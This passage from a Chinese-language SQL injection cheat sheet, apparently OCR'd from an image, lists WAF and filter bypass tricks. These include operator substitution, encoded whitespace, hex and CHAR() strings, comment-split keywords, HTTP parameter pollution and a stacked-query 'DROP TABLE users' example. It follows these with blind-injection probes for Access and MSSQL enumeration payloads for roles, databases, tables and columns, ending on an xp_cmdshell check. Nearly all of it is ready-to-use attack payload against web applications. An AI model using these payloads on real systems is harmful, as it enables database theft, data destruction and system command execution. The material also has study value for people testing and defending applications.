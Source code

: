     *   `AND` -> `&&`
    *   `OR` -> `||`
    *   `=` -> `LIKE`, `REGEXP`, `RLIKE`, `<>`, `>`, `<` (用于布尔判断)
    *   `substr()` -> `substring()`, `mid()`
    *   `ascii()` -> `ord()`
    *   `concat(a,b)` -> `a || b` (Oracle, PostgreSQL), `a + b` (SQL Server)
    *   获取数据库名: `database()` (MySQL) vs `db_name()` (MSSQL) vs `sys.context('userenv','db_name')` (Oracle)
    *   空格替换:
        *   `%20` (URL编码空格)
        *   `+` (URL编码空格的另一种形式，常用于GET参数)
        *   注释: `/**/`
        *   括号: `SELECT(column)FROM(table)` (某些场景)
        *   换行符/制表符: `%0a`, `%0d`, `%09`, `%0b`, `%0c`
        *   特殊空白符: `%a0` (非断行空格)
5.  **绕过引号过滤:**
    *   **数字型注入:** 如果注入点是数字型的，则不需要引号。
    *   **十六进制编码:** 如 `WHERE name=0x61646d696e` (表示 'admin')。
    *   **`CHAR()` 函数:** 如 `WHERE name=CHAR(97, 100, 109, 105, 110)`。
    *   **`CONCAT()` (或其他字符串连接函数):** 结合 `CHAR()` 或已知字符串片段构造目标字符串。
6.  **绕过关键字过滤 (如 `SELECT`, `UNION`, `AND`, `OR`):**
    *   大小写绕过。
    *   注释混淆: `UNI/**/ON SE/**/LECT`。
    *   编码绕过 (见上)。
    *   等价替换 (见上)。
    *   使用堆叠查询 (Stacked Queries) `;` (如果数据库和驱动支持)：`id=1'; DROP TABLE users; --` (极度危险，但常被WAF严格拦截)。
7.  **HTTP参数污染 (HPP - HTTP Parameter Pollution):**
    *   提交同名的参数，例如 `id=1&id=2&id=sleep(5)`。后端应用程序如何处理重复参数（取第一个？最后一个？全部连接？）可能不同，有时可以利用这种差异绕过WAF对单个参数值的检查。
8.  **宽字节注入:** (见上文)

### 特定数据库注入要点

#### Access数据库注入

*   **特点:** 没有 `information_schema`。注入主要靠暴力猜解和利用Access内置函数。不支持注释符 `--` 或 `#`，常用 `%00` (空字节) 截断。
*   **常用探测语句:**
    *   猜表名: `id=1 and exists (select * from admin)` (如果表存在则返回真)
    *   猜列名: `id=1 and exists (select username from admin)` (如果列存在则返回真)
    *   猜列数据类型/长度: `id=1 and (select top 1 len(username) from admin) > 5`
    *   猜列数据内容 (逐字盲注): `id=1 and (select top 1 asc(mid(username,1,1)) from admin) > 97` (猜第一个字符ASCII码)
*   **工具:** 老旧工具如 Havij, Pangolin 可能支持，但需谨慎使用。

#### MSSQL (Microsoft SQL Server) 数据库注入

*   **特点:** 权限体系复杂（`sysadmin`, `db_owner`, `public` 等角色）。功能强大，高权限下可通过存储过程（如 `xp_cmdshell`）执行系统命令。支持堆叠查询 (`;`)。
*   **系统对象:** `sysobjects` (存储数据库对象信息), `syscolumns` (存储列信息), `sys.databases`, `sys.tables`, `sys.columns` (新版)。
*   **权限判断:**
    *   `and 1=(select is_srvrolemember('sysadmin')) --` (判断是否为 sysadmin)
    *   `and 1=(select is_member('db_owner')) --` (判断是否为 db_owner)
    *   `and 1=(select is_member('public')) --`
*   **信息获取:**
    *   版本: `and @@version > 0 --` (利用报错) or `UNION SELECT @@version`
    *   当前用户: `and user > 0 --` (报错) or `UNION SELECT SUSER_SNAME()` or `SYSTEM_USER`
    *   当前库名: `and db_name() > 0 --` (报错) or `UNION SELECT db_name()`
    *   所有库名: `UNION SELECT name FROM master..sysdatabases` or `UNION SELECT name FROM sys.databases`
    *   指定库所有表名: `UNION SELECT name FROM dbname..sysobjects WHERE xtype='U'` or `UNION SELECT table_name FROM dbname.INFORMATION_SCHEMA.TABLES`
    *   指定表所有列名: `UNION SELECT name FROM dbname..syscolumns WHERE id = object_id('tablename')` or `UNION SELECT column_name FROM dbname.INFORMATION_SCHEMA.COLUMNS WHERE table_name='tablename'`
*   **`xp_cmdshell` 利用 (需要 `sysadmin` 权限):**
    *   检查是否存在/启用: `and 1=(select count(*) from master.dbo.sysobjects where name = 'xp_cmdshell') --`